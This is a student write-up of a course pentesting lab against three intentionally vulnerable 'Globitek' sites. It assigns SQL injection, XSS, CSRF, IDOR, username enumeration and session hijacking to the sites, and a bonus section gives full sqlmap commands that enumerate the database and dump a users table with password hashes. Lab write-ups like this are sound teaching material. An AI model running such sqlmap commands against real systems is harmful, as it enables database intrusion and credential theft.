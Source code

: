 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

![](gif/SQLI.gif)

Vulnerability #2: Session Hijacking/Fixation

![](gif/session_hijacking_fixation.gif)

## Green

Vulnerability #1: Username Enumeration

![](gif/username_enumeration.gif)

Vulnerability #2: XSS

![](gif/XSS.gif)

## Red

Vulnerability #1: IDOR

![](gif/IDOR.gif)


Vulnerability #2: CSRF

![](gif/CSRF.gif)

## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.

![](png/error.png)

XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
* globitek_blue
* globitek_green
* globitek_red
* information_schema
* mysql
* performance_schema
* sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+

I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |
+-----------------+--------------+

Finally going to dump user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[3 entries]
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+

